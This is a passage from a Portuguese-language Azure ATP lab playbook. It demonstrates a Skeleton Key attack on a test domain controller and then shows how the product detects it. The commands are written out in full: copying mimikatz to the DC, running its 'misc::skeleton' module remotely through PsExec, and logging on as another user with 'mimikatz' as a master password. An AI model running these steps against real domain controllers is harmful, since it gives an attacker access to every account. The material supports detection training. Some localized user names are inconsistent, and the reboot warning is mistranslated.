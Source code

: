    ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. Com o **mimikatz** preparada no controlador de domínio, execute-o remotamente por meio de PsExec:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. Você aplicou o patch no processo LSASS em **ContosoDC**.

   ![Ataque Skeleton Key por meio de mimikatz](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>Explorar o LSASS corrigido pela Skeleton Key

No **VictimPC**, abra um prompt de comando (no contexto do **DiogoM**), execute o seguinte para tentar se tornar o contexto do EduardoHD.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Mediante solicitação, use a senha incorreta de propósito. Essa ação prova que a conta *ainda* tem uma senha após a execução do ataque.  

![Uso de senha * errada* após o ataque de Skeleton Key (esse método funciona exatamente como descrito)](media/playbook-dominance-skeletonkey_wrong.png)

Mas a Skeleton Key adiciona outra uma senha a cada conta. Execute novamente o comando "runas", mas use "mimikatz" como a senha desta vez.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Esse comando cria um novo processo, *bloco de notas*, em execução no contexto do EduardoHD. **Skeleton Key pode ocorrer em _qualquer_ conta, incluindo contas de serviço e contas de computador.**

> [!Important]
> É importante que você reinicie o ContosoDC depois de executar o ataque de Skeleton Key. Ao fazer isso, o processo LSASS.exe no ContosoDC será corrigido e modificado, fazendo o downgrade de cada solicitação de autenticação para RC4.

### <a name="skeleton-key-attack-detection-in-azure-atp"></a>Detecção de ataque de Skeleton Key no ATP do Azure

O que o ATP do Azure detectou e informou enquanto tudo isso estava ocorrendo?

![Ataque de Skeleton Key detectado pelo AATP](media/playbook-dominance-skeletonkey_detected.png)

O ATP do Azure detectou o método de criptografia de pré-autenticação suspeito usado para este usuário.

### <a name="golden-ticket---existing-user"></a>Golden Ticket - Usuário existente

